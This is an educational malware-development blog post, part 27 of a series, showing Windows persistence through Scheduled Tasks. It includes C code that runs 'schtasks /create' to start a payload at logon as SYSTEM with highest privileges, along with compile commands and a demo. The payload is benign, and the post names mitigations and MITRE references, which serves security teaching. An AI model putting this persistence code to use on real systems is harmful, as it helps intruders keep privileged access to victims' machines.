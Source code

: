 ```yaml
---
title:  "Malware development: persistence - part 27. Scheduled Tasks. Simple C example."
date:   2025-03-12 03:00:00 +0300
header:
  teaser: "/assets/images/149/2025-03-14_22-44.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/149/2025-03-14_22-44.png){:class="img-responsive"}    

I've [written](/persistence/2022/12/09/malware-pers-20.html) a lot about [various](/persistence/2023/12/10/malware-pers-23.html) [persistence](/persistence/2024/03/12/malware-pers-24.html) methods but somehow I forgot to mention one simple technique.     

Today, I'm going to share another malware persistence technique: Scheduled Tasks. This is a classic method that attackers use to maintain access to a compromised system. I'll walk you through how it works, provide a proof-of-concept (PoC), and discuss some common pitfalls and fixes.     

### scheduled tasks

**Scheduled Tasks** is a Windows feature that allows users to automate the execution of programs or scripts at specific times or events, such as system startup or user logon. Attackers can abuse this feature to ensure their malware runs every time the system starts or a user logs in.     

In another words, the attacker creates a scheduled task that points to their malicious executable. The task is configured to run at system startup or user logon, ensuring the malware is executed persistently.    

### practical example

Let's start with a simple "malware" executable that displays a message box. This will simulate the malicious payload (`hack.c`):    

```cpp
/*
 * hack.c
 * "malware" for Scheduled Task
 * persistence trick
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2025/03/12/malware-pers-27.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int main() {
  MessageBoxA(NULL, "Meow-meow!!", "=^..^=", MB_OK);
  return 0;
}
```

This program simply displays a message box with the text `Meow-meow!!`:    

```powershell
.\hack.exe
```

![malware](/assets/images/149/2025-03-14_13-17.png){:class="img-responsive"}

Next, we'll create a program to set up the persistence mechanism using Scheduled Tasks `pers.c`:     

```cpp
/*
 * pers.c
 * persistence via Scheduled Tasks
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2025/03/12/malware-pers-27.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  // task
  const char *taskName = "MeowTask";
  const char *malwarePath = "C:\\Users\\zhzhu\\Desktop\\hack.exe";
  char command[512];

  snprintf(command, sizeof(command), 
       "schtasks /create /tn \"%s\" /tr \"%s\" /sc onlogon /ru SYSTEM /rl highest /f",
       taskName, malwarePath);

  // run command
  int result = system(command);

  if (result == 0) {
    printf("task created successfully! :)\n");
  } else {
    printf("failed to create task. :(\n");
  }

  return 0;
}
```

As you can see, the logic is pretty simple. This program creates a scheduled task named `MeowTask` that runs `hack.exe` at user logon with the highest privileges. The task is set to run as the `SYSTEM` user.     

But this option `hack.exe` didn't work for me. I'll write later why that's why I replaced it with another `hack.c`:     

```cpp
/*
 * hack.c
 * "malware" for Scheduled Task
 * persistence trick
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2025/03/12/malware-pers-27.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  FILE *file = fopen("C:\\Users\\zhzhu\\Desktop\\meow.txt", "w");
  if (file) {
    fprintf(file, "=^..^= Meow-meow =^..^=!!\n");
    fclose(file);
  }
  return 0;
}
```

The logic is a little different: instead of displaying the graphical interface of the message window, we simply create a file `meow.txt` and write the text `=^..^= Meow-meow =^..^=!!` into it.     

### demo

First of all compile `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/149/2025-03-14_11-30.png){:class="img-responsive"}

Then compile `pers.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/149/2025-03-14_11-30_1.png){:class="img-responsive"}

Let's say an attacker delivered our file `hack.exe` to the desktop at the post exploitation stage.    

Then run our persistence script on the victim's machine:    

```powershell
.\pers.exe
```

![malware](/assets/images/149/2025-03-14_13-17_1.png){:class="img-responsive"}

![malware](/assets/images/149/2025-03-14_13-20.png){:class="img-responsive"}

![malware](/assets/images/149/2025-03-14_23-08.png){:class="img-responsive"}

![malware](/assets/images/149/2025-03-14_14-42.png){:class="img-responsive"}

![malware](/assets/images/149/2025-03-14_14-42_1.png){:class="img-responsive"}

As you can see, scheduled task successfully created.    

Then, reboot the system or log off and log back in:    

![malware](/assets/images/149/2022-06-12_14-26_1.png){:class="img-responsive"}

If everything works, you should see the new file with `=^..^= Meow-meow =^..^=!!` message:    

![malware](/assets/images/149/2025-03-14_22-45.png){:class="img-responsive"}

![malware](/assets/images/149/2025-03-14_22-41.png){:class="img-responsive"}

As you can see everything is worked perfectly! =^..^=    

But there are the caveat. For some reason when creating a new scheduled task in my case it only worked when my virtual machine, that is, my laptop was connected to the network and not running on battery power:    

![malware](/assets/images/149/2025-03-14_23-07.png){:class="img-responsive"}

Also while testing first version of PoC with `meow-meow` messagebox, I encountered an issue where the task was created successfully, but the message box didn't appear after reboot.    

### mitigation

Monitor for unusual tasks or tasks running from suspicious locations. Use endpoint detection and response (EDR) tools to detect and block malicious tasks.   

Scheduled Tasks are a simple yet effective way to achieve persistence on a Windows system, the APT groups like [APT17](https://malpedia.caad.fkie.fraunhofer.de/actor/apt17) and [APT41](https://attack.mitre.org/groups/G0096/) exploited this feature for attacking PCs. Stay tuned for more malware persistence techniques, and don't forget to experiment responsibly.    

I hope this post spreads awareness to the blue teamers of this interesting persistence technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.     

[schtasks](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)     
[MITRE: Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/)     
[APT17](https://malpedia.caad.fkie.fraunhofer.de/actor/apt17)     
[APT41](https://malpedia.caad.fkie.fraunhofer.de/actor/apt41)
[Malware persistence - part 1. Registry run keys](/tutorial/2022/04/20/malware-pers-1.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2025-03-12-malware-pers-27)    

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
